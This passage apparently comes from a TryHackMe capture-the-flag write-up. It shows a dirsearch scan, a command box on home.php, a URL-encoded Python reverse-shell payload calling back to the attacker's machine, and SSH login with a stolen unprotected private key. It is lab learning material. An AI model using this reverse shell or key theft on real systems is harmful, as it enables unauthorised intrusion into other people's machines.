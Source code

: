 I try to SSH in with this password, but it doesn't work, hmmmm.

## HTTP
At one of the 'random' ports in the >100 range we get this:

>"Welcome to chocolate room!!  
>ASCII ART REMOVED  
A small hint from Mr.Wonka : Look somewhere else, its not here! ;)  
I hope you wont drown Augustus"  

Okey dokey. 

At the front page we get a login. Dirsearch gives me something more:

{% highlight shell %}
root@kali:/opt/tryhackme/choc# python3 /opt/dirsearch/dirsearch.py -u http://10.10.47.12
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10831

Error Log: /opt/dirsearch/logs/errors-21-01-17_21-15-29.log

Target: http://10.10.47.12/

Output File: /opt/dirsearch/reports/10.10.47.12/_21-01-17_21-15-30.txt

[21:15:30] Starting: 
Note: 403 files removed for brevity
[21:16:49] 200 -  569B  - /home.php
[21:16:51] 200 -    1KB - /index.html
[21:16:52] 200 -  273B  - /index.php.bak
{% endhighlight %}

What is at home.php? Home.php has a box which lets us send commands to the server, like reverse shells for example:

{% highlight html %}
command=python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.9.10.123",1234))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b'
{% endhighlight %}

Alright then. By the way, the password we cracked for *charlie* works in the login page, and directs us to *home.php*. So yeah whatever really.

## www-data
As www-data we can go to */home/charley* and read a file called *teleport*, which is an SSH private key. It's not password protected, so we just need to *chmod 600* on it and we can login as *charlie*:

{% highlight shell %}
root@kali:/opt/tryhackme/choc# chmod 600 id_rsa
root@kali:/opt/tryhackme/choc# ssh -i id_rsa charlie@10.10.47.12
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan 18 02:28:51 UTC 2021

  System load:  0.0               Processes:           602
  Usage of /:   43.6% of 8.79GB   Users logged in:     0
  Memory usage: 63%               IP address for eth0: 10.10.47.12
  Swap usage:   0%
.... etc etc
{% endhighlight %}
